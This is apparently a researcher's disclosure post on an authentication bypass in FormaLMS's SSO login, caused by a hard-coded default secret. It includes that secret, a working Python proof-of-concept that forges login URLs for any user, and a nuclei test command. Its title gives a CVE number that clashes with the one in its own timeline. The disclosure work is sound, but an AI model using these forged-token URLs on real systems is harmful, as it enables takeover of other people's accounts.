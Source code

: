 ```yaml
---
title: "CVE-2023-4136 - FormaLMS The evil default value that leads to Authentication Bypass"
slug: "cve-2023-4136-formalms-authentication-bypss"
date: 2021-11-02
images: ["logo/void.png"]
---
```


## Preface
As part of a recent research activity, we stumbled upon FormaLMS. The project is an open source Learning Management System built by forma.association and aimed at companies who want a learning platform for internal employees, partners, dealers and sellers.
The project is opensource and could be downloaded from the main website: formalms.org and the tested version is the 2.3.
Update: the exploit is working on version <= 2.4.4


## Responsible disclosure timeline
| Date	| Notes |
| ----  | ----- |
| 2021/10/02 | Vulnerability has been found |
| 2021/10/06 | Notification has been sent |
| 2021/10/21 | No answer. Sending second notification using the contact section of the website |
| 2021/11/02 | Public disclosure |
| 2021/11/09 | CVE-2021-43136 Assigned |



## Digging into the source
The application is written in PHP language and it uses custom routing logic to forward the requests to the specific controller. The architecture resemble the Model-View Controller one in a weird way and the requests are routed through the "front controller", which is the index.php file located in the root of the project.


## The routing mechanism
Once received, the front controller is responsible to parse the requested route via the r query string parameter, split the string by / and determine which controller and module to load (the green rectangle).
![Routing mechanism](/formalms/image-45.png)

A quick analysis on the `_homepage_base_` and `_homepagecatalog_base_` constants shows these values:
![Constants](/formalms/image-46.png)

So we can now reconstruct the routing mechanism:
- First part of the r parameter is the controller name (the red mark)
- Second part is the module name (green mark)
- Third part is the method name (orange mark)
- A "Controller" static suffix is appended at the end (yellow mark)

![MVC logics](/formalms/image-47.png)

## The authorization mechanism
While it is obvious that the routing mechanism allows every user to arbitrarily call any class, the authorization mechanism denies some actions to the administrative part of the application such as the `AdminrulesAdmController` file.

![ACL 1](/formalms/image-48.png)
![ACL 2](/formalms/image-49.png)
![ACL 3](/formalms/image-50.png)

So, in summary:
- The front controller, index.php, instantiate a new class based on the r input parameter and calls a constructor with the mvc name.
- The destination class, AdminrulesAdmController in this case, which extends the AdmController and is a subclass of the Controller class, calls a constructor with the mvc name and, afterwards, the init function
- The init() function of the "AdmController" is called and the checkRole() and checkPerms() are invoked based on the definition of the CORE constant, which is declared in various points of the code base.

## The vulnerability
While we had no luck trying to circumvent the authorization mechanism, one part of the index.php front controller caught my attention.
![front controller](/formalms/image-51.png)

Apparently, if the parameters login_user, time and token are passed to the query string, the application flows to a different location defined in the `_sso_` constant:
![sso constant flow](/formalms/image-52.png)


And, lastly, the part that clearly helped us to find the bug:
![bugged code](/formalms/image-53.png)

While it looks like that the developers were aware of this ugly default value ("orribile questo default" translates to "This is an horrible default value"), this was the part that motivated us to investigate further.


## Digging into the SSO function
Until now, we know that in order to access the sso functionality, the sso_token setting should be enabled.
The "sso" setting is present in the admin section of the website and, as shown in the screenshots above, it accepts a NULL value for the secret parameter.

![admin panel](/formalms/image-54.png)

## Exploiting the flaw
Knowing this, it is just a matter of sending an HTTP request on the index.php which contains:
- **login_user**: the target username
- **time**: the expiration of the session in epoch format. Adding some time will be useful to circumvent the expiration check
- **token**: calculated like the following:
```php
$recalc_token = strtoupper(md5($login_user . ',' . $time . ',' . $secret));
```
- **sso_secret**: the default value, which is: 8ca0f69afeacc7022d1e589221072d6bcf87e39c or, in some cases, empty if the value of SSO secret for the token hash is set to empty.


Following a simple PoC script that automates the process:​
```python
#!/usr/bin/env python
import sys
import time
import hashlib


secret = "8ca0f69afeacc7022d1e589221072d6bcf87e39c"

def help():
  print(f"Usage: {sys.argv[0]} username target_url")
  sys.exit()

if len(sys.argv) < 3:
    help()

user, url = (sys.argv[1], sys.argv[2])


t = str(int(time.time()) + 5000)
token = hashlib.md5(f"{user},{t},{secret}".encode()).hexdigest().upper()
final_url = f"{url}/index.php?login_user={user}&time={t}&token={token}"
print(f"URL with default secret: {final_url}")

token = hashlib.md5(f"{user},{t},".encode()).hexdigest().upper()
final_url = f"{url}/index.php?login_user={user}&time={t}&token={token}"
print(f"URL with empty secret: {final_url}")
```


And, finally, the bypass:
![bypass](/formalms/image-55.png)


## Nuclei template
Following a nuclei template, which could be useful for testing the vulnerability on single/multiple targets.
**Note**: the exploit uses blank value for the SSO Secret value, feel free to change it accordingly
The exploit needs environment variables in order to generate correct time in epoch format and token.
```sh
time=$(date -d "20 minutes" +"%s"); token=$(echo -n "admin,$time," | md5sum | cut -d ' ' -f 1);  ~/nuclei/v2/nuclei -u http://localhost:8085/formalms/ -t ~/nuclei-templates/vulnerabilities/formalms/formalms-auth-bypass.yaml -var login_user=admin -var time=$time -var token=$token -debug -v
```


